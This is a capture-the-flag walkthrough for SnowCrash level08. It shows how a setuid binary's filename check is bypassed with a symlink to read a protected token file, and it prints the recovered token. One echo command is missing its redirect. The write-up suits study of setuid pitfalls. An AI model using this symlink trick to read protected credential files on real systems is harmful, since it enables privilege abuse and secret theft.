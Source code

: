 In our home directory, we notice an executable with extended permissions and a token file that we do not have access to:

```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

When we test the executable with a file we own, it displays the file's content:

```
level08@SnowCrash:~$ echo '42' ./test
level08@SnowCrash:~$./level08 ./test
42
```

But that doesn't work with the token file:

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Since we don't receive a Linux permission error, it's possible that the level08 executable restricts access based on the file name. To bypass this, we can try using a symlink:

```
level08@SnowCrash:~$ ln -s ~/token /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
25749xKZ8L7DkSCwJkT9dyv6f
```
